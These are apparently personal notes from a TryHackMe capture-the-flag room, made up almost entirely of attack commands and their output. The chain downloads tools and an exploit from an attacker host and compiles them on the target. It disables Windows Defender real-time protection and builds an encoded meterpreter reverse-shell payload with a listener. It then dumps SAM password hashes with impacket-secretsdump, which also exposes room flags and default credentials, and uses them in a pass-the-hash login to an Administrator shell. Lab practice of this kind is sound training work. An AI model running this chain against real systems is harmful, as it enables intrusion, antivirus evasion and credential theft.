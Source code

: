 SHELL> Get-Content passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser
   Password: wampp

4) WEBDAV:

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf

   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so

   Please do not forget to refresh the WEBDAV authentification (users and passwords).
SHELL>


+ What is the content of the user level flag? `THM{1010_EVASION_LOCAL_USER}`
+ What is the content of the root level flag?


Invoke-WebRequest -Uri "http://10.4.37.160:83/winPEASany_ofs.exe" -OutFile "C:\Users\evader\Downloads"
wget "http://10.4.37.160:83/winPEASany_ofs.exe" -outfile "wp.exe"
Start-Process -FilePath "C:\Users\evader\Downloads\wp.exe"

+ Check anti Virus `Get-MpComputerStatus`
+ Turn off AV `Set-MpPreference -DisableRealtimeMonitoring $true`

Get-ChildItem | Where-Object { $_.Name -match '[a-z].txt$' }
Get-ChildItem -Recurse | Where {$_.Name -match '*flag*$'} | Select Fullname


Get-ChildItem -Recurse -Filter "*root*"


msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o rev.exe -e x64/zutto_dekiru

msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.4.37.160; set lport 1235; exploit"


curl http://10.4.37.160:83/exploit.cs -o exploit.cs
curl http://10.4.37.160:83/backup.cs -o backup.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe exploit.cs -nowarn:1691,618
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe exploit.cs -nowarn:1691,618
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe backup.cs
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe backup.cs

.\exploit.exe backup.exe

wget http://10.10.2.227:8080/system.bak

impacket-secretsdump -sam sam.bak -system system.bak local
```bash
┌──(lodwig㉿kali)-[~/Documents/THM/Stealth]
└─$ impacket-secretsdump -sam sam.bak -system system.bak local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dfe3378335d43f9764e581b856a662a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
evader:1022:aad3b435b51404eeaad3b435b51404ee:09de49072c2f43db1d7d8df21486bc73:::
[*] Cleaning up...
```

evil-winrm -u Administrator -H ADMIN_HASH -i TARGET_IP

```bash
┌──(lodwig㉿kali)-[~/Documents/THM/Stealth]
└─$ evil-winrm -u Administrator -H 2dfe3378335d43f9764e581b856a662a -i 10.10.2.227
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt
THM{101011_ADMIN_ACCESS}
```





